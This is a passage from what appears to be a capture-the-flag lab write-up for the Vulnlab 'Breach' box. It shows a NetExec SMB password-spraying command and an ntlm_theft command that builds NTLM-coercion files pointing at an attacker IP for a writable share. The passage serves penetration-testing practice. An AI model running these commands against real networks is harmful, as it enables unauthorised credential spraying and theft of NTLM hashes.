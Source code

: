 Now lets try to do a username as passwords attack on this box.

```bash
nxc smb breach.vl -u users.txt -p pass.txt --continue-on-success | grep "[+]"
```

![image.png](/assets/images/Breach_VL/image%2010.png)

Only two guest users were found which was of no use to us.

## Exploitation

### NTLM Theft (A phishing attack)

Earlier we saw that we have share named **Share** to which we have write access.

Lets try to exploit this by using the NTLM_Theft, a kind of phishing attack.

```bash
python3 /opt/ntlm_theft/ntlm_theft.py -g all -s 10.10.14.19 -f exploit
```

![image.png](/assets/images/Breach_VL/image%2011.png)
